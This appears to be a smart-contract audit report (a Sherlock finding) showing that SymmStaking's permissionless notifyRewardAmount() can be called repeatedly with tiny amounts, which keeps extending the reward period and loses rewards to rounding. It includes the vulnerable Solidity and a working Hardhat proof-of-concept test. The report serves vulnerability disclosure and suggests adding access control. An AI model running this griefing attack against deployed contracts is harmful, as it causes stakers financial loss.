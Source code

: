 Raspy Clear Fish

High

# The frequent calls of `notifyRewardAmount()` will make rewards distribution never-finishes and significant loss of rewards

### Summary

`notifyRewardAmount()` is responsible for starting a new rewards distribution period. However, a malicious attacker can exploit the permissionless nature of this function, leading to an indefinite reward distribution period and a significant reduction in rewards.

### Root Cause

As can be seen from the following code snippet, the [`notifyRewardAmount()`](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/staking/SymmStaking.sol#L275-L292) is permissionless and can be called by anyone with `0` token.

```solidity
	function notifyRewardAmount(address[] calldata tokens, uint256[] calldata amounts) external nonReentrant whenNotPaused {
		_updateRewardsStates(address(0));
		if (tokens.length != amounts.length) revert ArraysMismatched();

		uint256 len = tokens.length;
		for (uint256 i = 0; i < len; i++) {
			address token = tokens[i];
			uint256 amount = amounts[i];

			if (amount == 0) continue;
			if (!isRewardToken[token]) revert TokenNotWhitelisted(token);

			IERC20(token).safeTransferFrom(msg.sender, address(this), amount);
			pendingRewards[token] += amount;
			_addRewardsForToken(token, amount);
		}
		emit RewardNotified(tokens, amounts);
	}

	function _addRewardsForToken(address token, uint256 amount) internal {
		TokenRewardState storage state = rewardState[token];

		if (block.timestamp >= state.periodFinish) {
			state.rate = amount / state.duration;
		} else {
			uint256 remaining = state.periodFinish - block.timestamp;
			uint256 leftover = remaining * state.rate;
@>			state.rate = (amount + leftover) / state.duration;
		}

		state.lastUpdated = block.timestamp;
		state.periodFinish = block.timestamp + state.duration;
	}
```

This means anyone can increase the finish time of rewards distribution without any restriction. And also, the accrued lost rewards in the `state.rate = (amount + leftover) / state.duration` can be significant by frequent calls

### Internal pre-conditions

*None*

### External pre-conditions

*None*

### Attack Path

An attacker calls `notifyRewardAmount()` frequently(e.g., once per 1~3 blocks).

### Impact

- Rewards distribution will never finish.
- Significant amount of reward tokens will be lost.

### PoC

For test purpose, I defiend the `MockUSDC` contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract MockUSDC is ERC20 {
	constructor(string memory name_, string memory symbol_) ERC20(name_, symbol_) {
		_mint(msg.sender, 10_000_000 * 10 ** decimals());
	}

	function decimals() public view override returns (uint8) {
        return 6;
    }
}
```

The following test cases demonstrates how the frequent calls will significantly reduce the reward amount to be distributed.

```typescript
import { SignerWithAddress } from "@nomicfoundation/hardhat-ethers/signers"
import { loadFixture, time } from "@nomicfoundation/hardhat-network-helpers"
import { expect } from "chai"
import { ethers, network } from "hardhat"
import { e } from "../utils"
import { MockUSDC, Symmio, SymmStaking } from "../typechain-types"
import { initializeFixture, RunContext } from "./Initialize.fixture"

export function symmStakingPocM03() {
	let context: RunContext
	let symmStaking: SymmStaking
	let stakingToken: Symmio
	let user1: SignerWithAddress
	let user2: SignerWithAddress
	let admin: SignerWithAddress
	let usdcToken: MockUSDC

	beforeEach(async function () {
		context = await loadFixture(initializeFixture)
		symmStaking = context.symmStaking
		admin = context.signers.admin
		user1 = context.signers.user1
		user2 = context.signers.user2
		stakingToken = context.symmioToken

		// 1. Mint initial balance of 100,000 SYMM (staking token) to user1, user2, and admin
		let initialBalance: bigint = e("100000")
		await stakingToken.connect(admin).mint(user1.address, initialBalance)
		await stakingToken.connect(admin).mint(admin.address, initialBalance)

		// 2. Deploy USDC (ERC20) tokens
		const USDC = await ethers.getContractFactory("MockUSDC")

		// USDC Token
		usdcToken = await USDC.deploy("USDC", "USDC")
		await usdcToken.waitForDeployment()

		await usdcToken.transfer(user2.address, "10000000000") // 10000 USDC
	})

	describe("notifyRewardAmount()", function () {
		// @audit-poc
		it.only("can result in infinite distribution duration and rewards loss", async function () {
			const depositAmount: bigint = e(100000) // user1 deposits 100,000 SYMM
			const rewardAmount = "10000000000" // 10,000 USDC

			// user1 deposits tokens
			await stakingToken.connect(user1).approve(await symmStaking.getAddress(), depositAmount)
			await symmStaking.connect(user1).deposit(depositAmount, user1.address)

			// Admin configures and notifies rewards
			await usdcToken.connect(admin).approve(await symmStaking.getAddress(), rewardAmount)
			await symmStaking.connect(admin).configureRewardToken(await usdcToken.getAddress(), true)
			await symmStaking.connect(admin).notifyRewardAmount([await usdcToken.getAddress()], [rewardAmount])

			await usdcToken.connect(user2).approve(await symmStaking.getAddress(), depositAmount)

			let snapshotId = await network.provider.send("evm_snapshot");

			for (let i = 0; i < 10800; i ++) { // for 12 hours
				// Fast forward time to accumulate some rewards
				await time.increase(4) // Update reward rate per 2 blocks
				await symmStaking.connect(user2).notifyRewardAmount([await usdcToken.getAddress()], ["1"])
			}
			let rewardState = await symmStaking.rewardState(await usdcToken.getAddress())
			expect(rewardState.rate * rewardState.duration).to.equal("3467923200") // Calculate the remaining token amount that can be distributed

			await network.provider.send("evm_revert", [snapshotId]);

			await time.increase(43200) // Advance 12 hours

			await symmStaking.connect(user2).notifyRewardAmount([await usdcToken.getAddress()], ["0"]) // Just update the token state
			rewardState = await symmStaking.rewardState(await usdcToken.getAddress())
			expect(rewardState.rate * (rewardState.duration - 43200n)).to.equal("9285494400") // Calculate the remaining token amount that can be distributed
		})
	})
}
```

As can be seen from the test case, after 12 hours, the remaining amount should be `9285494400 USDC`. But due to the frequent calls, it decreased to `3467923200 USDC`.

### Mitigation

I suggest adding permission to `notifyRewardAmount()`

